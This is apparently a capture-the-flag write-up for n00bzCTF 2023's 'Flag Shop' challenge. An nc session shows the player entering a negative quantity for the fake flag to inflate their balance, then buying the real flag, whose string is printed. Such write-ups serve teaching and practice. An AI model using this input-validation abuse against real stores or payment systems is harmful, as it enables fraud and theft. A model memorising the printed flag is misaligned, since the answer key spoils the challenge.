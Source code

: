 ### Flag Shop

![Flag Shop](https://github.com/Hed6eH0g/ctf/blob/main/2023/n00bzctf/pwn/flag_shop/flag_shop_0.png)

In this challenge, we can interact with the server according to the options.
We can find that the initial balance is set to $100 and $1337 seems to be required to obtain the flag.
Checking available options and brief trials for increasing the balance to confirm the behavior of the server.
Then, it was found that a negative value for buying the fake flag is allowed.
By exploiting this vulnerability, we can increase our own balance and buy the real flag as follows:

```
$  nc challs.n00bzunit3d.xyz 50267
Welcome to the flag shop! The flag costs $1337 but you have $100. You can buy the fake flag which costs $50
[1] Buy real flag - $1337
[2] Buy fake flag - $50
[3] Check account balance
3
$100
[1] Buy real flag - $1337
[2] Buy fake flag - $50
[3] Check account balance
2
How many?
-30
[1] Buy real flag - $1337
[2] Buy fake flag - $50
[3] Check account balance
3
$1600
[1] Buy real flag - $1337
[2] Buy fake flag - $50
[3] Check account balance
1
How many?
1
n00bz{5h0p_g0t_h3ck3d_4nd_fl4g_g0t_570l3n!}
```